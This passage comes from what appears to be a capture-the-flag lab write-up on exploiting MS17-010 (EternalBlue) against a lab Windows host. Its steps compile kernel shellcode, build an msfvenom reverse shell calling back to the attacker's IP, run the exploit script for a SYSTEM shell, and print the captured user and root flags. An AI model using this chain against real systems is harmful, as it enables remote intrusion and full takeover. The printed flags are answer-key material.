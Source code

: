 3. I compiled the kernel shellcode from the package above:

   ```bash
   nasm -f bin ~/opt/exploits/eternalblue/MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
   ```

4. I then created a reverse shell payload in msfvenom:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format raw -o sc_x64_payload.bin
   ```

5. I combined these two files together and then used that bin with the exploit launcher to get a reverse shell as SYSTEM:

   ```bash
   cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
   python ~/opt/exploits/eternalblue/MS17-010/eternalblue_exploit7.py 10.10.10.40 sc_x64.bin
   ```

   ![image-20201111174240962](.Report.assets/image-20201111174240962.png)

6. From this prompt, I was able to view the contents of user.txt and root.txt:

   ![image-20201111171342439](.Report.assets/image-20201111171342439.png)
   user.txt: 4c546aea7dbee75cbd71de245c8deea9
   root.txt: ff548eb71e920ff6c08843ce9df4e717
